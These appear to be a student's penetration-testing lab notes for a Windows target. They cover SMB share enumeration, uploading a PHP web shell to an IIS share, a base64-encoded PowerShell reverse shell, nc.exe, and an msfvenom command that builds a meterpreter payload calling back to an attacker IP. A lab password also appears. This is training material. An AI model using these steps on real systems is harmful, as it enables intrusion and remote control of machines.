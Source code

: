 We got access as `tyler`from [[PNPT/WPE/Windows Subsystem for Linux/Initial Foothold|Initial Foothold]]

# Notes from Tyler
---
![[Pasted image 20250414140533.png]]
- Possible Password: `92g!mA8BGjOirkL%OG*&`
- Something Interesting: `\\secnotes.htb\new-site`
	- This site is not found
	- ![[Pasted image 20250414140615.png]]
- Directory is written in SMB format, let's try that

# SMB Enumeration
---
- `smbclient -L \\\\10.10.10.97\\ -U tyler`
	![[Pasted image 20250414140747.png]]
- Access the shares:
	- ![[Pasted image 20250414141009.png]]
	- These look like default **IIS server files for windows**. We know there is an **IIS server running on port 8808** from nmap scan [[PNPT/WPE/Windows Subsystem for Linux/Nmap Scan Results]]
	- We can `put` files
		- ![[Pasted image 20250414141216.png]]
		-  Let's see if we can get a shell by putting an aspx shell here.
			- ASPX shell is never detected, seems like antivirus is preventing those.
		- Uploaded a normal php command shell and **executed base64 encoded powershell to get shell** [[Encoded Powershell Reverse Shell]] from www.revshells.com
		- ![[Pasted image 20250414145511.png]]
		- ![[Pasted image 20250414144642.png]]
		- **Another method is just to upload `nc.exe` and run it from our php command shell.**

# Meterpreter shell
--- 
- Generate and upload `reverse.exe`:
	- `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.19 LPORT=9001 -f exe -o reverse.exe`
	- Upload via same `smb` share

# WinPEAS Enumeration
----
- Upload winPEAS via same smb share